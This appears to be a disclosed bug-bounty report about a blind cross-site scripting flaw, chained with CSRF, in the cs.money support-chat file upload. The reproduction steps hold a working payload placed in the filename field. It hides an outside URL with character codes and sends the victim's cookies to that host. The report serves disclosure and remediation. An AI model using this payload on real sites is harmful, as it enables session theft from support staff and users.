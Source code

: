 # Blind XSS on image upload

## Report Details
- **Report ID**: 1010466
- **URL**: https://hackerone.com/reports/1010466
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-10-17T04:17:33.874Z
- **Disclosed**: 2020-12-26T00:08:49.144Z

## Reporter
- **Username**: benjamin-mauss
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
- The CSRF vulnerability make a request for support.cs.money/upload_file; This upload_file does not have csrf token/ origin/ reference verification!
- The XSS allows to execute JS. The payload of the XSS stay in the param 'filename' of the CSRF request. 

## Steps To Reproduce:
XSS
- use a proxy like burp suite and turn intercept on
- upload a file to the support chat
- change the filename to \"><img src=1 onerror=\"url=String['fromCharCode'](104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61)+encodeURIComponent(document['cookie']);xhttp=&#x20new&#x20XMLHttpRequest();xhttp['open']('GET',url,true);xhttp['send']();
- open the chat support and xss will activate

 CSRF
- create a file html in some server
- create a form with a file and the payload name
- send to a new tab. This one will post the image with payload

## Supporting Material/References:
https://onlinestringtools.com/convert-string-to-ascii      to convert the attacker's website link to ascii

## Impact

Allows the hacker to execute javascript. If the victim click in a link provided by the hacker, then go to the chat support in ANY TIME after this, XSS will be activated.
For the guys of support chat, they don't even need to click in the link for the XSS activate.

## Attachments
- expected_request.png
- payload.txt
- result.png
